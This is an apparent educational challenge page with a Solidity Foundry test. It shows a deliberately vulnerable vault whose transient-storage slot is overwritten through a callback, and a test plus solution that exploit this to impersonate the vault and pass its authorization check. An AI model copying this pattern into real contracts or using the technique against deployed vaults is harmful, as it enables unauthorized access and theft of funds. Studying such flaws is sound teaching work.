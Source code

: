 
Introduction: transcient is a keyword that  has  been  introduced to avoid reentrancy but has other usage like transfer +  approval in the same transaction.<br>
<br>
<br>
This code is vulnerable to a transient vulnerability. Try find the  vulnerability and read the solution at the end of this code. Read the following link to understand transient keyword first.<br>
It has been  introduced in 2024 : https://soliditylang.org/blog/2024/01/26/transient-storage/<br>
<br><br><br><br>




```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";

/*
SIR (Storage Injection via Reentrancy) vulnerability transient storage test
Reference: https://www.coveragelabs.io/blog/post/sir-exploit
Solidity 0.8.24+ transient storage
*/

// Simplified transient storage vulnerability demonstration

contract SimpleVault {
    // mint function
    function mint(uint256 amountToDeposit) external returns (uint256) {
        // Write vault address (address(this)) to transient storage
        address vault = address(this);
        assembly {
            tstore(1, vault)
        }
        
        // Directly call own callback function
        this.SwapCallback(amountToDeposit, "");
        
    }
    
    // Simulate SwapCallback callback function
    function SwapCallback(uint256 amount ,bytes calldata data) external {
        // Read vault address from transient storage
        address vault;
        assembly {
            vault := tload(1)
        }

        // Check if caller is a legitimate vault
        require(msg.sender == vault, "Not authorized");
        
        if (vault == address(this)) {
            // Output vault address for observation
            console.log("vault address:", vault);
            // Write the returned amount to transient storage
            assembly {
                tstore(1, amount)
            }
        } else {
            console.log("Manipulated vault address:", vault);
        }
    }

}

contract TransientStorageMisuseTest is Test {
    SimpleVault vault;
    
    function setUp() public {
        vault = new SimpleVault();
    }


    function testStorageExploit() public {
        // First, let's check what address we want to get
        console.log("Target address:", address(this));
        
        // Convert the address to uint256
        uint256 amount = uint256(uint160(address(this)));
        emit log_named_uint("Amount needed", amount);
        
        // Now use this amount in the mint function
        vault.mint(amount);
        // Exploit callback
        vault.SwapCallback(0, "");
    }
}
```


Solution:<br>
1 - vault.mint(uint256(uint160(address(this))));  to overwrite the vault address.<br>
2 - use  SwapCallback()  pass the require statement since <br>

Explanation:
- In `mint()`, `tstore(1, address(this))` stores the vault address.
- `this.SwapCallback(amount, "")` reads that correct vault address, passes the `require`, then does `tstore(1, amount)`.  
    → Now slot 1 == `amount` == the attacker’s address.

- In `SwapCallback`, `vault := tload(1)` pulls the attacker’s address out of slot 1.
- `require(msg.sender == vault)` now passes **because msg.sender is the attacker**.
    - So the attacker has successfully **impersonated** the vault!
